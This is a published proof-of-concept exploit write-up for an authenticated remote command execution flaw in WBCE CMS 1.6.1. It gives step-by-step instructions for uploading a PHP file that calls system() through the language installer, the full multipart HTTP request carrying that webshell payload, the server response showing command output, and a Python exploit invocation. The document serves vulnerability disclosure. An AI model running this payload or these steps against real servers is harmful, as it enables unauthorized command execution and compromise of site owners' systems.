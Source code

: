 ## Exploit Title: WBCE CMS Version 1.6.1 Remote Command Execution

- **Date:** 30/11/2023
- **Exploit Author:** tmrswrr
- **Vendor Homepage:** [WBCE CMS](https://wbce-cms.org/)
- **Software Link:** [WBCE CMS 1.6.1](https://github.com/WBCE/WBCE_CMS/archive/refs/tags/1.6.1.zip)
- **Version:** 1.6.1

![WBCE_CMS Image 1](https://raw.githubusercontent.com/capture0x/WBCE_CMS/main/1.png)

![WBCE_CMS Image 2](https://raw.githubusercontent.com/capture0x/WBCE_CMS/main/2.png)

### POC:

1. Login with admin credentials and click on Add-ons.
2. Navigate to Language > Install Language > [https://demos6.demo.com/admin/languages/index.php](https://demos6.demo.com/admin/languages/index.php)
3. Upload `upgrade.php` with the content `<?php echo system('id'); ?>`, then click install > [https://demos6.demo.com/admin/languages/install.php](https://demos6.demo.com/admin/languages/install.php)
4. The command execution result will be displayed: 

uid=1000(soft) gid=1000(soft) groups=1000(soft)
uid=1000(soft) gid=1000(soft) groups=1000(soft)


### Post Request:

```http
POST /admin/languages/install.php HTTP/1.1
Host: demos6.demo.com
Cookie: [cookie values]
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://demos6.demo.com/admin/languages/index.php
Content-Type: multipart/form-data; boundary=---------------------------86020911415982314764024459
Content-Length: 522
Origin: https://demos6.demo.com
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="formtoken"

5d3c9cef-003aaa0a62e1196ebda16a7aab9a0cf881b9370c
-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="userfile"; filename="upgrade.php"
Content-Type: application/x-php

<?php echo system('id'); ?>

-----------------------------86020911415982314764024459
Content-Disposition: form-data; name="submit"
```
### Response:

```
-----------------------------86020911415982314764024459--

<!-- ################### Up from here: Original Code from original template ########### -->

<!-- senseless positioning-table: needed for old modules which base on class td.content -->
<div class="row" style="overflow:visible">
<div class="fg12">
<table id="former_positioning_table">
<tr>
    <td class="content">
uid=1000(soft) gid=1000(soft) groups=1000(soft)
uid=1000(soft) gid=1000(soft) groups=1000(soft)
    <div class="top alertbox_error fg12 error-box">
        <i class=" fa fa-2x fa-warning signal"></i>
                    <p>Invalid WBCE CMS language file. Please check the text file.</p>    
                    <p><a href="index.php" class="button">Back</a></p>
```

### Exploit:

To exploit this vulnerability, use the provided Python script:

```python3 Exploit.py https://demos6.demo.com/admin/ admin password 'whoami'```
